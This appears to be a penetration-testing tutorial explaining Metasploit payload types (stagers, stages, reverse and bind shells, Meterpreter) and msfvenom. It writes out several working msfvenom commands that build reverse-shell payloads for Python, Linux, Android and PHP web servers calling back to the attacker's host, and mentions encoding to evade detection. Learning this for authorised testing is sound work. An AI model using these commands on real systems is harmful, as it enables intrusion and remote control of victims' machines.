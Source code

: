 Categories of Payloads:
#### Singles
- Standalone payloads that perform a specific action without requiring additional components.
- Example: Adding a user to the system (`adduser`) or executing a command.
#### Stagers
- Lightweight payloads designed to establish a connection between the attacker and the target.
- Their purpose is to facilitate the delivery of a larger payload (stage) while using minimal resources.
- Example: reverse_tcp (sets up a reverse connection from the target to the attacker).
#### Stages
- Larger, feature-rich payloads sent after the stager establishes a connection.
- Stages offer advanced capabilities, such as a full interactive session or remote control.
- Example: `meterpreter` (a robust, interactive shell with advanced tools for post-exploitation).
### Reverse Shell Payloads:

The target system initiates a connection back to the attacker's machine.
Useful when the target is behind a firewall or NAT. Example:
`linux/meterpreter/reverse_tcp`
### Bind Shell Payloads

The target system opens a port and waits for the attacker to connect.
Often blocked by firewalls but useful in certain situations. Example:
`windows/meterpreter/bind_tcp`

### Meterpreter Payloads

An advanced, modular payload that allows you to interact with the target system.
Includes features like process management, file transfer, and privilege escalation. Example:
`windows/meterpreter/reverse_https`

Most payloads require 2 key options:
- RHOST: The target's IP address where the shell will be available.
- RPORT: The port on the target system to connect to.

Example (to generate a Python payload):
```python
msfvenom -p python/meterpreter/reverse_tcp LHOST=(your_IP) LPORT=4444 -f raw > payload.py
```

#### Custom Payloads
What is `msfvenom`?

`msfvenom` is a versatile tool that combines msfpayload and msfencode. It helps you:

- Create payloads in various formats (e.g., executable files, scripts).
- Encode payloads to evade detection.
- Customize payload options like IP addresses, ports, and protocols.

Here are examples of how to generate payloads for different platforms:

_Linux ELF Payload:_

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(your_IP) LPORT=4444 -f elf -o payload.elf
```
_Android APK Payload:_

`msfvenom -p android/meterpreter/reverse_tcp LHOST=(your_IP) LPORT=5555 -o payload.apk`

_PHP Reverse Shell Payload for Web Servers:_

`msfvenom -p php/meterpreter_reverse_tcp LHOST=(your_IP) LPORT=8080 -f raw > payload.php`

While creating payloads, ensure to configure these key options:

- _LHOST:_ The local IP address for receiving connections.
- _LPORT:_ The listening port for incoming connections.
- _-f:_ The format of the payload (e.g., elf, apk, raw).

Validate the payload after generation by reviewing its size and inspecting the code if necessary.
